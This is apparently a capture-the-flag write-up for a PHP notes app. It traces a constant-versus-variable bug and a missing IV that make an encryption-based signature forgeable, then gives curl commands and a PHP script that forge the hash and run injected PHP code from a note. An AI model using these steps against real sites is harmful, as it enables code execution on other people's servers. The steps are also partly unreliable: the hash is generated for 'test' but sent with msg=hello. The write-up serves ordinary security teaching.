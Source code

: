 # certay-revenge

**Description:**  
_“Probably you need to understand our language to get some of the superpowers?”_  
But it’s fixed now.

---

## Overview
The website contains the following PHP files:

- `login.php`
- `register.php`
- `dashboard.php`
- `post_note.php`

After registering and logging in, a user is shown a textarea. However, submitting any text appears to do nothing.

Let’s dive into the source code for more details.

---

## Source Code Analysis

- The `login.php`, `register.php`, and `post_note.php` files contain no significant vulnerabilities.
- The interesting logic lies in the `dashboard.php` and `config.php` files.
- The `config.php` file contains a dangerous function, which becomes critical in the context of the dashboard.

From `dashboard.php`, here are the notable code snippets:

```php
define('yek', $_SESSION['yek']);

function safe_sign($data) {
    return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
}

custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash'];
```

---

## Technical Insight

### `define` vs Variable Declaration

**`define`:**

1. Used to declare constants (immutable values).
2. Constants do **not** start with `$`.
3. Constants are global and case-sensitive.
4. Cannot be changed or undefined once set.

**Regular Variable Declaration:**

1. Used to declare variables.
2. Variables **start with `$`**.
3. Can be reassigned.
4. Scope can vary: local, global, or static.

### Issue with IV in `openssl_encrypt`

If the IV is not properly passed to `openssl_encrypt()`:
- PHP pads it with null bytes (`\0`) if too short.
- If completely missing or incorrect (like `false`), it can result in unintended behavior and even insecure encryption.

---

## Key Vulnerabilities

### 1. Constant vs Variable Confusion
- `define('yek', $_SESSION['yek']);` defines a **constant** `yek`, but later code uses the **variable** `$yek`, which is uninitialized.
- As a result, `$yek` becomes `null`.

### 2. Undefined IV in `safe_sign()`
- The IV parameter (`iv`) is not defined in the function.
- If `$_GET['key']` is passed as an array, `safe_sign()` returns `false`.

### 3. Weak Encryption Parameters
In the `custom_sign()` call:
- `$key = null`
- `$iv = false`

This leads to:
- Key: effectively an empty string (because `null` is cast to `""`)
- IV: 16 null bytes (because `false` becomes an empty string, which gets padded)

This results in **predictable encryption** and allows the attacker to forge a valid hash.

---

## Exploitation Steps

### 1. Register an Account
```bash
curl -X POST -d "username=attacker&password=attacker" http://localhost:8080/register.php
```

### 2. Log In to Create a Session
```bash
curl -X POST -d "username=attacker&password=attacker" http://localhost:8080/login.php -c cookies.txt
```

### 3. Post a Malicious Note
```bash
curl -X POST -d "note=highlight_file('/tmp/flag.txt');" http://localhost:8080/post_note.php -b cookies.txt
```

### 4. Generate a Matching Hash to Bypass the Check

Create a PHP script:
```php
<?php
function custom_sign($data, $key, $vi) {
    return openssl_encrypt($data, 'aes-256-cbc', $key, 0, $vi);
}
echo custom_sign("test", null, false);
?>
```

This outputs a predictable signature because both key and IV are weak.

Let’s say it prints:
```
2HB5iFgiP0Vk00CxA/ZSew==
```

### 5. Bypass the Signature Check
```bash
curl "http://localhost:8080/dashboard.php?msg=hello&hash=2HB5iFgiP0Vk00CxA/ZSew==&key[]=" -b cookies.txt
```

Because the signature matches, the malicious `note` gets executed.

---

## FLAG

![flag](https://github.com/user-attachments/assets/c2f5a464-cbec-4445-92a7-2663f5e0ae53)
